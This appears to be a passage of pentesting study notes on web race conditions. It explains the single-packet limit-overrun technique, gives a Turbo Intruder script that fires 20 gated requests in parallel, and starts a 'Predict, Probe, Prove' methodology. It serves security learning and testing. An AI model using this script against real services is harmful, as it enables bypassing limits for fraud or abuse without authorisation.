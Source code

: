 --------------

### RACE CONDITIONS

---------------

- Limit Overrun attack with `single packet attack technique`.The single-packet attack enables you to completely neutralize interference from network jitter by using a single TCP packet to complete 20-30 requests simultaneously.

- Exploiting Limit Overrun with Turbo Intruder if the target support `HTTP/2`-:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

- Set `engine` to `engine=Engine.BURP2` and `concurrentConnections=1`
- When queueing your requests, group them by assigning them to a named gate using the gate argument for the `engine.queue()` method.
- Open the respective gate with the engine.openGate() method.

--------------------

### Race Conditions Methodology to find hidden multi-step sequences

---------------------

### Predict,Probe, Prove

--------------------

- Predict-:
  -  Is the enpoint critical
  -   For a successful collision, you typically need two or more requests that trigger operations on the same record.
